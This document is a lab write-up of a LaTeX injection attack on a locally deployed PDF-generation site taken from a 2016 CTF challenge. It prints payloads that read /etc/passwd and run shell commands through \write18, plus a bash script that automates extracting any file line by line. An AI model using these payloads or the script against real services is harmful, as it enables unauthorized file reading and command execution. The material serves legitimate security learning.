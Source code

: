 # Definition
Something to do.
# Installing and Preparing Lab
I will use my machine to deploy our own website to generate **PDF** documents from **LaTex**.
First, we havo to install a few *packages* needed to use our website.
```shell
sudo apt install texlive-full zathura latexmk rubber -y
```
___
Then, we could configure our *LaTex* environment for later, *this is not necessary*.
```shell
xdg-mime query default application/pdf
xdg-mime default zathura.desktop application/pdf
sudo apt install poppler-utils
```
___
So, let's continue. We are going to use a GitHub project with the server code from [web90](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code).
```shell
cd /var/www/html
sudo service apache2 start
sudo svn checkout https://github.com/internetwache/Internetwache-CTF-2016/trunk/tasks/web90/code
sudo mv code/* .
sudo rm -rf code
sudo mv config.php.sample config.php
```
___
We must assign the right permissions to our *server code*.
```shell
sudo chown www-data:www-data -R *
```
___
Good!, we should see something like this.
![[Pasted image 20230821163251.png]]
___
# Attacking
## Contexualizing
First, let's start by inserting any text in the **Latex** field.
![[Pasted image 20230821163541.png]]
___
To see the generated PDF, we should follow that link.
![[Pasted image 20230821163640.png]]
We can notice that depending on the content that we enter in the **Latex** field we can generate a PDF.
___
## Injections
Why don't we do a web search, if there is a way to hack this behavior?
Then, you could use this payload -> `\input{/etc/passwd}` retrieved from [PayloadAllTheThings-LatexInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).
Let's try out.
You may notice that this *payload* is **BLACKLISTED**.
![[Pasted image 20230821164430.png]]
This because, in the source code that *input* word is *blacklisted* and you can verify it by seeing the content of the file *ajax.php*.
![[Pasted image 20230821164834.png]]
Also, you can note that the code of *ajax.php* file contains an interesting term called **--shell-scape**. So, what does that mean?
![[Pasted image 20230821165235.png]]
___
Doing a investigation about that term, we were able to find a vulnerability from [HackTricks-LatexInjection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection).
![[Pasted image 20230821165900.png]]
Whit that term, we can execute **ANY** shell command.
___
Good, with the information retrieved so far, back to the [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) page there is a way to read a single line from a specific file.
```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```
___
Let's use that *payload* to see the **first** line of the **/etc/passwd** file.
![[Pasted image 20230821170746.png]]
You can observe that we were able to see the first line of the **/etc/passwd** file.
___
Now, what if we wanted to see the second line?
We should repeat the **third** line of our *payload*, like this.
```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\read\file to\line
\text{\line}
\closein\file
```
___
Let's use it.
![[Pasted image 20230821171258.png]]
So, we were able to see the **second** line of the **/etc/passwd** file.
___
Finally, what if we wanted to see several lines?
We should name **every** line we want to see, like this.
```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\lineA
\read\file to\lineB
\read\file to\lineC
\read\file to\lineD
\read\file to\lineE
\text{\lineA\lineB\lineC\lineD\lineE}
\closein\file
```
___
Let's use it.
![[Pasted image 20230821172144.png]]
We were able to see several lines of the **/etc/passwd**, but all of them in the same line.
___
Another *payload* from [HackTricks-LatexInjection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) uses a **loop** to iterate and print *every* line from **/etc/passwd** file.
```latex
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```
___
Let's try it.
![[Pasted image 20230821172935.png]]
This execution ended in a **ERROR**. Because *latex* conflicts with **some** character. It could be the `_` character used in the **/etc/passwd** file.
___
### Bash Scripting
We have seen the content of *every* line from **/etc/passwd**. So, why don't we code a *bash* script to obtain the entire content of the **/etc/passwd** file or any other file?
Let's code it.
*getFileContent.sh*, this script uses a *payload* to see, from the **PDF** generated, a single line from a specific **file** using a bucle to jump to the next line (`\read\file to\line`) and avoiding *errors*.
```bash
#!/bin/bash

# global variables
declare -r main_url="http://localhost/ajax.php"
filename=$1
n_lines=$2

# if the filename and the number of lines are being sent
if [ $filename ] && [ $n_lines ]; then
	jump_line_string="%0A\read\file%20to\line"
	for i in $(seq 1 $n_lines); do
		# get url generated of the latex code
		url_file_generated=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$jump_line_string%0A\text{\line}%0A\closein\file&template=blank" | grep -i "download" | awk 'NF{print $NF}')

		if [ $url_file_generated ]; then
			# get the PDF generated and its name
			wget $url_file_generated &>/dev/null
			pdf_name=$(echo $url_file_generated | tr '/' ' ' | awk 'NF{print $NF}')

			# convert PDF generated to TXT
			pdftotext $pdf_name

			# print the desired content
			txt_name=$(echo $pdf_name | sed 's/\.pdf/\.txt/')
			cat $txt_name | head -n 1

			# clean the environment
			rm -f $pdf_name
			rm -f $txt_name
		fi 

		# jump to the next line
		jump_line_string+="%0A\read\file%20to\line"
	done
else
	echo -e "\n[!] Use: $0 /etc/passwd 60\n"
fi
```
___
```shell
./getFileContent.sh /etc/passwd 60
```
![[Pasted image 20230821184735.png]]
___
## Command Execution
If we see more in deep the [PayloadAllTheThings-LatexCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) webpage, we can observe we can execute commands.
The payload, in **LaTex**, is.
```latex
\immediate\write18{id}
```
![[Pasted image 20230821185658.png]]
The *output* of the given command is being shown in the **compiling error**.
___
What if we wanted to see the *output* of a given command within a generated PDF?
Well, we could achieve that by combining the *reading* of a single line with this *payload*.
The output of the command `id` is saved in the **output** file, then the content of the **output** file is read with another *payload* already seen.
```latex
\immediate\write18{id > output}
\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
```
![[Pasted image 20230821190621.png]]
___
## Another Attack
When we generate the **output** file in the previous *injection*, that file is stored in the **compile** directory.
![[Pasted image 20230821191003.png]]
![[Pasted image 20230821191120.png]]
___
Well, if we want to see the content of the **/etc/passwd** file as before, we should use the following payload and then see it in the web.
```latex
\immediate\write18{cat /etc/passwd > output.txt}
```
![[Pasted image 20230821191419.png]]
___